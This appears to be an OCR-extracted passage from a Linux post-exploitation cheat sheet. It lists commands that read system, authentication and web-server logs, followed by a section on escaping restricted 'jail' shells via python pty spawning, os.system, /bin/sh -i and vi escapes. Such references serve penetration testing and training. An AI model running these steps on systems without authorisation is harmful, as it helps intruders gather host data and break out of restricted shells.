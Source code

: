 ###
    cat /var/log/httpd/error_log
###
    cat /var/log/httpd/error.log
###
    cat /var/log/lastlog
###
    cat /var/log/lighttpd/access.log
###
    cat /var/log/lighttpd/error.log
###
    cat /var/log/lighttpd/lighttpd.access.log
###
    cat /var/log/lighttpd/lighttpd.error.log
###
    cat /var/log/messages
###
    cat /var/log/secure
###
    cat /var/log/syslog
###
    cat /var/log/wtmp
###
    cat /var/log/xferlog
###
    cat /var/log/yum.log
###
    cat /var/run/utmp
###
    cat /var/webmin/miniserv.log
###
    cat /var/www/logs/access_log
###
    cat /var/www/logs/access.log
###
    ls -alh /var/lib/dhcp3/
###
    ls -alh /var/log/postgresql/
###
    ls -alh /var/log/proftpd/
###
    ls -alh /var/log/samba/

## Is it possible to break out of "jail" shell?
    python -c 'import pty;pty.spawn("/bin/bash")'
###
    echo os.system('/bin/bash')
###
    /bin/sh -i
###
    vi -> :sh or :!UNIX_command
